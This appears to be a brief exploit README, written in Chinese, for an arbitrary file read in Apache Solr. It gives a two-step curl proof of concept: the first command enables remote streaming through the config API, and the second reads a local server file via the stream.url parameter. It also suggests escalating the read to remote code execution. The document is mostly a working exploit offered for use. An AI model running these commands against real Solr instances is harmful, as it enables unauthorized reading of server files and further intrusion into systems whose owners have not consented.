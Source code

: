 # Solr-file_read



一个官方觉得是feature而不修复的漏洞

如何read to RCE 值得思考



POC:

```
curl -d '{  "set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}' http://192.168.33.130:8983/solr/db/config -H 'Content-type:application/json' 

curl "http://192.168.33.130:8983/solr/db/debug/dump?param=ContentStreams" -F "stream.url=file:///C:/a.txt" 
```



![image-20210318001430696](https://gitee.com/svenbeast/NotePicture/raw/master/img/2021/03/18/85647_image-20210318001430696.png)
